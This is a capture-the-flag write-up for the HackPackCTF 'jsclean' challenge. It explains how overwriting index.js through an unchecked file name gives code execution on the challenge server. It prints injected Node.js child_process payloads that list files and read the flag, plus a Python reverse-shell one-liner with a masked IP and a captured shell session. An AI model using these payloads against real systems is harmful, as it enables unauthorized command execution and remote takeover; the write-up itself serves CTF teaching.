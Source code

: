 ```yaml
---
title: "HackPack: jsclean"
categories:
  - HackPackCTF
tags:
  - HackPackCTF
---
```



We're given a python script as reference, and an address to connect to:

```
import os
import sys
import subprocess


def main(argv):
    print("Welcome To JavaScript Cleaner")
    js_name = input("Enter Js File Name To Clean: ")
    code = input("Submit valid JavaScript Code: ")

    js_name = os.path.basename(js_name) # No Directory Traversal for you

    if not ".js" in js_name:
        print("No a Js File")
        return

    with open(js_name,'w') as fin:
        fin.write(code)

    p = subprocess.run(['/usr/bin/node','index.js','-f',js_name],stdout=subprocess.PIPE);
    print(p.stdout.decode('utf-8'))

main(sys.argv)
```

We can see that the script accepts a name for a .js script, as well as code for the script. It validates that .js is in the file name, and then dumps the code into the file. Then, it runs an "index.js" file using node, with the parameter -f (our file name). It's not clear what -f does, but we can infer that this is what's printing out our code in a readable format.

While testing this script, I noticed that it only accepts a one-liner, and any code that isn't on the first line is discarded.

It's also important to note that there are no restrictions to what we can name the file. You may have noticed, but if we name our file index.js, it's going to open the pre-existing file, dump our code into it, then execute it!

```
nc cha.hackpack.club 41718

Welcome To JavaScript Cleaner
Enter Js File Name To Clean: index.js
Submit valid JavaScript Code: const { exec } = require("child_process"); exec("ls -la", (error, stdout, stderr) => { if (error) { console.log(`error: ${error.message}`); return; } if (stderr) { console.log(`stderr: ${stderr}`); return; } console.log(`stdout: ${stdout}`); });
stdout: total 60
drwxr-xr-x 1 jsclean jsclean  4096 Apr 13 19:24 .
drwxr-xr-x 1 root    root     4096 Apr 13 19:24 ..
-rw-r--r-- 1 jsclean jsclean   220 May 15  2017 .bash_logout
-rw-r--r-- 1 jsclean jsclean  3526 May 15  2017 .bashrc
-rw-r--r-- 1 jsclean jsclean   675 May 15  2017 .profile
-rw-rw-r-- 1 jsclean jsclean    26 Apr 13 19:17 flag.txt
-rw-rw-r-- 1 jsclean jsclean   245 Apr 24 20:59 index.js
-rw-rw-r-- 1 jsclean jsclean   562 Apr 13 19:17 jsclean.py
drwxr-xr-x 1 jsclean jsclean  4096 Apr 13 19:24 node_modules
-rw-r--r-- 1 jsclean jsclean 11370 Apr 13 19:24 package-lock.json
-rw-rw-r-- 1 jsclean jsclean   311 Apr 13 19:17 package.json
```

We can see that flag.txt exists, so we'll run a "cat flag.txt" command to grab it:

```
nc cha.hackpack.club 41718

Welcome To JavaScript Cleaner
Enter Js File Name To Clean: index.js
Submit valid JavaScript Code: const { exec } = require("child_process"); exec("cat flag.txt", (error, stdout, stderr) => { if (error) { console.log(`error: ${error.message}`); return; } if (stderr) { console.log(`stderr: ${stderr}`); return; } console.log(`stdout: ${stdout}`); });
stdout: flag{Js_N3v3R_FuN_2_Re4d}
```

Voila, there's our flag!

**flag{Js_N3v3R_FuN_2_Re4d}**

Just for fun, we can return a reverse shell to ourselves using pentestmonkey's python reverse shell (since we know python is installed on the system):

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"xx.xxx.xxx.xx\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'
```

Full code to inject:

```
const { exec } = require("child_process"); exec("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"xx.xxx.xxx.xx\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'", (error, stdout, stderr) => { if (error) { console.log(`error: ${error.message}`); return; } if (stderr) { console.log(`stderr: ${stderr}`); return; } console.log(`stdout: ${stdout}`); });
```

```
Listening on [0.0.0.0] (family 0, port 80)
Connection from 152.14.93.208 15270 received!
/bin/sh: 0: can't access tty; job control turned off
$ whoami
jsclean
$ 
```
